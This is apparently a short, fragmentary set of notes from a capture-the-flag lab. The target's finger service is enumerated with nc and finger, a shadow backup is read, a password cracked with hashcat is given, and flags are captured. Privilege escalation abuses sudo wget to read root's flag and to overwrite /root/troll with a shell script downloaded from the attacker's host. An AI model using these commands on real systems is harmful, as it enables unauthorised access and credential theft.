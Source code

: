 79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer

```
─$ echo "root" | nc -vn 10.129.198.61 79
(UNKNOWN) [10.129.198.61] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Apr 13, 2022>

```

┌──(kali㉿kali)-[~]
└─$ finger @10.129.198.61
No one logged on
                                                                             
┌──(kali㉿kali)-[~]
└─$ finger admin@10.129.198.61
Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
netadm   Network Admin                      < .  .  .  . >
netcfg   Network Configuratio               < .  .  .  . >
dhcpserv DHCP Configuration A               < .  .  .  . >
ikeuser  IKE Admin                          < .  .  .  . >
lp       Line Printer Admin                 < .  .  .  . >
                                                                             
┌──(kali㉿kali)-[~]
└─$ finger user@10.129.198.61
Login       Name               TTY         Idle    When    Where
aiuser   AI User                            < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >

history

 ls -l /backup
   11  cat /backup/shadow.backup
   12  sudo /root/troll
   13  sudo /root/troll

using hashcat found that the password fro sammy was cooldude!

-bash-4.4$ cat user.txt
d6240312ad58d082b44d7be2d965ecc3

-bash-4.4$  sudo wget --input-file /root/root.txt
--2023-05-23 19:01:27--  http://a3450a2a446ef235798a74faec77bf34/
Resolving a3450a2a446ef235798a74faec77bf34 (a3450a2a446ef235798a74faec77bf34)... failed: temporary name resolution failure.
wget: unable to resolve host address ‘a3450a2a446ef235798a74faec77bf34’

we could overwrite the troll file 

sudo wget http://10.10.14.5/shell.py -O /root/troll


# Lesson learnt
1. always look for enumeration scripts of services
2. look for files in the directory


